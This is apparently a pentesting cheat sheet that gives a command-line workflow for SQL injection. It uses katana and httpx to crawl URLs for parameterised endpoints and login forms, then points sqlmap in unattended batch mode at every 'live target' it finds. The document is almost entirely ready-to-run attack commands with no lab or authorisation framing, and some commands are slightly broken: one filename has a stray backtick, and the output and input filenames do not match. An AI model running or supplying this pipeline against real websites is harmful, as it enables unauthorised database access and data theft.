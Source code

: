 # SQL Injection

Search Tag(s): #reconnaissance #vulnerability-assessment #webapp-pentesting #sql-injection

## 01 - Crawl URL Endpoints

Crawl URLs with parameters.

```
$ katana -list urls.txt -f qurl [-fx] -d 5 -em php,asp,aspx,jsp | httpx -mc 200 -o fuzz-endpoints.tx`

$ katana -list urls.txt -f qurl [-fx] -d 5 -ef jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt,js,md | httpx -mc 200 -o fuzz-endpoints.txt
```

Perform SQL Injection on the live targets via parameters.

```
$ sqlmap -m crawled_urls.txt --drop-set-cookie --dbms=mysql --smart --technique=B --batch

$ sqlmap -m crawled_urls.txt --drop-set-cookie --dbms=postgresql --smart --technique=B --batch
```

## 02 - Login and registration forms

Crawl URLs with panels or forms.

```
$ katana -silent -u urls.txt -field url -cs login_urls_wordlist.txt | httpx -silent -mc 200 -o crawled_urls.txt
```

Perform SQL Injection on the live targets via forms.

```
$ sqlmap -m crawled_urls.txt --drop-set-cookie --forms --dbms=mysql --smart --technique=B --batch

$ sqlmap -m crawled_urls.txt --drop-set-cookie --forms --dbms=postgresql --smart --technique=B --batch
```

---
## References

- https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt

- https://github.com/the-robot/admin-finder/blob/master/wordlist.txt